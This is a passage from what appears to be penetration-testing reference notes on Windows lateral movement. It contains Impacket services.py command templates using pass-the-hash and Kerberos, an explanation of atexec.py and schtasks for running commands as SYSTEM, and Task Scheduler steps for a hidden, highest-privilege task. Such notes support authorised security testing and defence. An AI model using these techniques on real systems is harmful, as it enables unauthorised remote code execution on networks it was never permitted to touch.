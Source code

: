```
services.py -hashes <LM_HASH:NT_HASH> [-target-ip <TARGET_IP>] [[<DOMAIN>/]<USERNAME>@<HOSTNAME | IP> <start | delete> -name <SERVICE_NAME>

# Kerberos authentication
export KRB5CCNAME=<TICKET_CCACHE_FILE_PATH>
services.py -k -no-pass -dc-ip <DC_IP> <HOSTNAME> create -name <SERVICE_NAME> -display <SERVICE_DISPLAY_NAME> -path '<SERVICE_COMMAND>'
services.py -k -no-pass -dc-ip <DC_IP> <HOSTNAME> <start | delete> -name <SERVICE_NAME>
```

###### Remote scheduled tasks

The Windows built-in utility `schtasks`, the `Impacket`'s `atexec.py`
Python script, and the Windows `Task Scheduler` graphical utility can be used
to remotely create and start a Windows scheduled tasks.

Remote code execution can be achieved through a Windows scheduled task by:
    - Copying a binary to the targeted system and executing it through the
      scheduled task.
    - Directly executing a one-liner or payload through a built-in Windows
      binary, such as `cmd.exe` or `powershell.exe`.

Refer to the `[General] Shells` note for Windows reverse shell one-liners and
scripts.

While `schtasks` does not have a "run now" option, a scheduled task can be
programmed to run once and starts in a few minutes. The `/Z` switch can be
specified to automatically delete the scheduled task after execution. It may
however raise compatibility issue, in which case the scheduled task would need
to be deleted manually.

`atexec.py` will create, run and immediately delete a scheduled task, by
default with a random generated name, that execute the specified command. The
scheduled task will be executed as `NT AUTHORIT\SYSTEM`. The command output
will be stored in a temporary random file and retrieved through the `ADMIN$`
share.

The Windows `Task Scheduler` utility can be used to configure remote scheduled
task through the `Microsoft Management Console (MMC)` utility:

```
File -> Add/Remove Snap-in (Ctrl + M) -> Task Scheduler -> Add
Specification of the remote computer: Another computer -> (Optional) Connect as another user

Task Scheduler (<HOSTNAME>) -> Right click -> Create task...

  General -> Name
          -> Description
          -> Run whether user is logged on or not
          -> Hidden
          -> Run with highest privileges
          -> (Optional, to run as NT AUTHORITY\SYSTEM) Change User or Group... -> SYSTEM

  Actions -> New... -> Program/script: <cmd.exe | %ComSpec% | powershell.exe | BINARY>
          -> Add arguments (optional): <COMMAND_ARGS>

  Conditions -> Power -> Start the task only if the computer is on AC power -> Unchecked

Task Scheduler Library -> Right click on <TASK> -> Run / Delete  
```
